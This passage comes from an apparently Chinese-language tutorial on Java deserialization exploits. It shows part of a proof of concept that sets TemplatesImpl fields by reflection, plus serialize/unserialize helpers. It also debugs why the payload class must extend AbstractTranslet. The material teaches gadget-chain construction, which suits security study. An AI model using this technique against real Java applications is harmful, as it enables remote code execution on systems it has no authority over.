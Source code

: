 ```bash
    tfactoryField.setAccessible(true);
    tfactoryField.set(templates,new TransformerFactoryImpl());

    templates.newTransformer();


    }




    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

于是我们对报错的对应方法下断点进行调试：

[![](assets/1701612311-ef507553bc7d2baf9d9969d7318dbc3a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235320-39895b96-20cc-1.png)

经过调试我们发现，之前我们对应赋值的变量都能够通过，这里出现了\_auxClasses 空指针的现象，所以这里我们结合下面的 if<0 判断语句发现，这里修改\_auxClasses 并不能解决问题：

这里判断当前类的父类的值是否为一个常量，而 superClass 对应的就是我们利用的 demo 类

```bash
private static String ABSTRACT_TRANSLET
        = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
    _transletIndex = i;
}
else {
    _auxClasses.put(_class[i].getName(), _class[i]);
}
```
